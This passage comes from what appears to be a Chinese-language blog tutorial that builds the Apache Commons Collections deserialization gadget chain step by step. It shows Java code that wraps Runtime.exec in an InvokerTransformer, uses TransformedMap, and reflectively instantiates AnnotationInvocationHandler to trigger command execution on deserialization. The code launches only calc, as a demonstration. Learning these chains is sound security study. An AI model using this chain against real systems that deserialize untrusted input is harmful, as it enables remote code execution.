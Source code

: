 ```java
Object put = objectObjectHashMap.put("key", "value");
Map<Object, Object> decorate = TransformedMap.decorate(objectObjectHashMap, null, exec);
for(Map.Entry entry: decorate.entrySet()){
    entry.setValue(r);
}
```
![](https://xinyisleep.github.io/img/2025/commons-collections/8.png)
![](https://xinyisleep.github.io/img/2025/commons-collections/9.png)
```
到这里我们需要先整理一下思路,我们目前推进到这里的目的是想推到readObject,所以我们优先去找readObjec里面的，根据前辈们的找的是sun.reflect.annotation.AnnotationInvocationHandler
中调用了readObject并且执行了setValue(图一)，然而呢我们执行到setValue需要经过两个条件那我们挨个看看吧，第一个看下面代码获取一个type的注解(这里是从构造方法上面看出来的)
annotationType = AnnotationType.getInstance(type);
，type呢在构造方法中是可以控制的并且还需要修改memberValues是AbstractInputCheckedMapDecorator.TransformedMap类AbstractInputCheckedMapDecorator为啥不行是因为他是一个抽象类刚好TransformedMap继承了他(图二)，那我们使用反射去执行一下试试。
```

![](https://xinyisleep.github.io/img/2025/commons-collections/10.png)

![](https://xinyisleep.github.io/img/2025/commons-collections/11.png)

```java
Runtime r = Runtime.getRuntime();
InvokerTransformer exec = (InvokerTransformer)new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"calc"});
HashMap<Object, Object> objectObjectHashMap = new HashMap<>();
Object put = objectObjectHashMap.put("value", "value");
Map<Object, Object> decorate = TransformedMap.decorate(objectObjectHashMap, null, exec);
Class<?> aClass = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
Constructor<?> declaredConstructor = aClass.getDeclaredConstructor(Class.class, Map.class);
declaredConstructor.setAccessible(true);
Object o = declaredConstructor.newInstance(Retention.class, decorate);
serialize(o);
unserialize("ser.bin");

//        这里解释一下为什么是Retention注解因为获取了注解的所有成员变量看下图，并且
//        Object put = objectObjectHashMap.put("value", "value");
//        为啥key是value是因为需要获取到value才不为空，第2个参数decorate这也是因为继承
//        AbstractInputCheckedMapDecorator，所有就可以直接调过去了。
```

![](https://xinyisleep.github.io/img/2025/commons-collections/12.png)

![](https://xinyisleep.github.io/img/2025/commons-collections/13.png)

```
好了到这里我们还需要解决一个问题就是Runtime是不可以被反序列化的，好消息是class可以那么我们使用
InvokerTransformer.transform里面的代码实现一个Runtime的反射。
```
